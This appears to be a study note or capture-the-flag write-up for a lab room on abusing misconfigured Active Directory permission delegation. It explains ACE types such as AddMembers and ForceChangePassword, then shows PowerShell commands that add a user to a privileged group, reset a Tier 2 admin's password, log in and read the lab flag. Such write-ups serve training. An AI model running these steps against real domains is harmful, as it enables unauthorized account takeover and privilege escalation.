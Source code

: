 # Permission Delegation

Active Directory can delegate permissions and privileges through a feature called Permission Delegation.

- Exploits are referred to as ACL-based attacks
- AD allows administrators to configure Access Control Entries (ACEs) that populate Discretionary Access Control Lists (DACLs), hence the name ACL-based attacks
- Any AD object can be secured with ACE
- ACEs describe the allowed/denied permissions that any other AD object has against the target object

- if any ACEs are misconfigured, it may be possible for an attacker to exploit them

Example:
- IT Support team are granted ForceChangePassword ACE over Domain Users group, this would be considered insecure
- Misconfiguration would allow them to reset passwords for privileged accounts

# Exploiting ACEs
- Significant amount of ACEs can be misconfigured

- Bloodhound documentation assists in explaining enumerated ACEs and how they can be exploited

https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#

### ForceChangePassword
- Ability to set the user's current password without knowing their current password

### AddMembers
- Ability to add users, groups, or computers to the target group

### GenericAll
- Control over the object
- Ability to change the user's password, register an SPN
- Add AD object to the target group

### Generic Write
- Update any non-protected parameters of our target object
- Update the scriptPath parameter, which would cause a script to execute the next time the user logs on

### Write Owner
- Ability to update the owner of the target object
- Ability to assign ourselves as the owner, allowing us to gain additional permissions over the object

### Write DACL
- Ability to write new ACEs to the target object DACL
- Write ACE that grants our account full control over the target object

### AllExtendedRights
- Perform any action associated with extended AD rights against the target object



In order to exploit these ACEs, we need a method to interact with AD to make these requests:
- AD-RSAT PowerShell
- PowerSploit

# Bloodhound
Use the files provided in the room and upload to Bloodhound

<pre>sudo neo4j console start </pre>

![Alt text](../../Images/Bloodhound.png)

# Privilege Escalation

- justin.barnes is a member of Domain Users
- Domain is tiered
- Need to compromise the Tier 2 Admins group since this group has administrative privileges on all workstations

![Alt text](<../../Images/Justin Barnes Membership.png>)

- Administrator has misconfigured the Permission Delegation of the IT Support group by providing the Domain Users group with AddMembers ACE
- Any member of the Domain Users group can add accounts to the IT Support group
- IT Support group has the ForceChangePassword ACE for Tier 2 Admin group members

![Alt text](<../../Images/Justin Barnes Membership 2.png>)

## AddMembers
- Add our AD account (justin.barnes) to IT Support group

<pre>PS C:\>Add-ADGroupMember "IT Support" -Members "justin.barnes" </pre>

- Verify that justin.barnes has been added to IT Support group

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "IT Support" | select name

name             
----
brenda.black
reece.noble
paula.bailey
barbara.reid
christine.hall
irene.leach
ruth.dale
adrian.boyle
michael.cameron
nicholas.pearson
justin.barnes
max.smith
 </pre>

 ## ForceChangePassword
- justin.barnes is now a member of IT Support group
- Inherit the ForceChangePassword Permission Delegation over Tier 2 Admin group
- Identify the members of this group to select a target

<pre>PS C:\Users\justin.barnes> Get-ADGroupMember -Identity "Tier 2 Admins" | select name

name               
----
t2_lawrence.lewis
t2_leon.francis
t2_henry.harvey
t2_june.russell
t2_kathleen.mills
t2_irene.nash
t2_henry.shaw
t2_alan.riley
t2_jordan.hawkins
t2_ross.bird
t2_robin.wyatt
t2_caroline.dawson
t2_melanie.davies
 </pre>

 - Target account: t2_robin.wyatt
 - Use the Set-ADAccountPassword AD-RSAT cmdlet to force change the password

 <pre>PS C:\Users\justin.barnes> $Password = ConvertTo-SecureString "Password.123" -AsPlainText -Force

PS C:\Users\justin.barnes> Set-ADAccountPassword -Identity "t2_robin.wyatt" -Reset -NewPassword $Password </pre>

- Authenticate to THMWRK1 (10.200.63.248) using account t2_robin.wyatt

<pre>ssh t2_robin.wyatt"10.200.63.248</pre>

<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>whoami
za\t2_robin.wyatt</pre>

What is the value of the flag stored on the Desktop of the Administrator user on THMWRK1 (flag1.txt)?
<pre>za\t2_robin.wyatt@THMWRK1 C:\Users\t2_robin.wyatt>cd C:\Users\Administrator\Desktop

za\t2_robin.wyatt@THMWRK1 C:\Users\Administrator\Desktop>more flag1.txt
THM{Permission.Delegation.FTW!}
</pre>